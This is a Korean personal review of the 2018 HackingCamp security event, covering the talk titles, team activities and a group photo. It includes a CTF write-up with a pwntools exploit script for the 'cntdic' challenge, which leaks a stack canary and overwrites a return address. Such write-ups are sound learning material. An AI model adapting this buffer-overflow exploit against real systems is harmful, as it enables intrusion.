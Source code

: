 # 2018 18th HackingCamp Review

![KakaoTalk_20180902_175327263](C:\Users\samsung\Downloads\KakaoTalk_20180902_175327263.jpg)

거의 반강제로 해킹캠프 후기를 쓰게 된 wally0813 입니다 ㅋㅋㅋ

이래저래 사람들도 많이 뵙고 재밌었어용ㅎㅎ 개강 전 마지막 방학에 좋은 경험이였습니당ㅎㅎ



```
어디로 가야하오 - 정진욱
나도 이제 악성코드를 분석해볼까? - 차민석
Deep dive analysis of hwp malware targeting cryptocurrency exchanges (Remaster Edition) - 조효제
Digital Forensics a2A - 김수영
BROP (부제: general ROP? nop, this is BROP!) - 안건희
apt-get install heap - 황호
Security Option Bypass 101  - 문시우
버그헌팅 어렵지 않아 – 국내 미디어플레이어 취약점 제보기 - 최광준
1 Bug 3 Bounty - 김민정
창과 방패: Cheat & Anti Cheat - 김지오
```

이번 발표 주제들이였는데 다 재밌고 다들 열심히 발표해주셧어요ㅎㅎ

개인적으로는 버그헌팅 주제들이 되게 재밌었네용 담에 꼭 도전해보고싶습니다ㅋㅋ

그리고 특히 heap 발표하신분 엄청 친절하게 설명해주셔서 감탄했습니다ㅋㅋ



중간중간 쉬는 시간에 SISS 분들이 이벤트도 해주셔서 팀원들이랑도 친해지고 재밌었어요ㅋㅋ

아이스크림 사준 팀장언니 짱bb 다른 팀원분들도 다들 친절하시고 넘 웃기셧어요ㅋㅋㅋㅋ



![KakaoTalk_20180903_184259851](C:\Users\samsung\Documents\카카오톡 받은 파일\KakaoTalk_20180903_184259851.jpg)

그 후엔 저녁먹고 장기자랑도 보고 치킨도 먹으면서 ctf 했습니당

ctf 는 포너블은 꼭 풀어야지 했는데, 초반에 한번도 보지 못한 윈도우 포너블이 나와서 당황하다가,..

c0nstant 님에게 왜 윈도우 포너블만 있냐고 물어보니 공부시키려고 그랬다고 합니다..ㅎㅎㅎ 공부해야지..



cntdic 나오고 그것만 봤는데 어려운 문제가 아닌데 

그날 머리가 안돌아갔는지 시간안에 못풀어서 너무 아쉬웠습니다..ㅠㅠ

flag도 못따고 아쉬운 마음에 여기에 라업 투척..

카나리있고 바운더리 걸려있는 단순한 bof 문제였습니당

```python
from pwn import *
from time import *

w = process("./cntdic")
#w = remote("kshgroup.kr",1800)

def create(name,description,language,capital):
	w.sendlineafter("Your choice : ", "1")
	w.sendlineafter(":", name)
	w.sendlineafter(":", description)
	w.sendlineafter(":", language)
	w.sendlineafter(":", capital)
	w.recvline()

def remove():
	w.sendlineafter("Your choice : ", "2")
	w.sendlineafter(":", "y")

def showlist():
    w.sendlineafter("Your choice : ", "3")

def showdetail(index):
    w.sendlineafter("Your choice : ", "4")
    w.sendlineafter(":", str(index))
	w.recvuntil("Capital :")
	canary = u32(w.recvuntil("Language :")[55:58].rjust(4,"\x00"))
	ebp = u32(w.recvuntil("=")[26:30])+0x40
	return canary, ebp

for i in range(0, 95):
	create("a"*20, "b"*30,"c"*20,"d"*20)

create("a"*20, "b"*30,"c"*20,"d"*53)

canary, ebp = showdetail(99)
log.info("Find Canary!! "+hex(canary))
log.info("Find EBP!! "+hex(ebp))

one_shot = 0x08048e86 + 0x1d

remove()

create("a"*20, "b"*30,"c"*20,"d"*53+p32(canary)+p32(one_shot)+p32(ebp-4))

w.interactive()

```



그리고 대망의..

![KakaoTalk_20180902_182005462](C:\Users\samsung\Documents\카카오톡 받은 파일\KakaoTalk_20180902_182005462.jpg)

강준혁의 계략으로 찍게 된 헥서 단체사진ㅠㅠ

아직도 그때만 생각하면 쪽팔린데ㅋㅋㅋ 좋은 추억이였네요ㅠㅠㅋㅋㅋㅋ

그리고 팀장님이 좋아하셔서 다행입니다ㅋㅋㅋㅋㅋㅋ



해킹캠프 운영해주신 POC 분들, SISS, DEMON 팀 분들 다들 고생하셧습니다 XD



저는 이만 윈도우 포너블 공부하러...빠이!



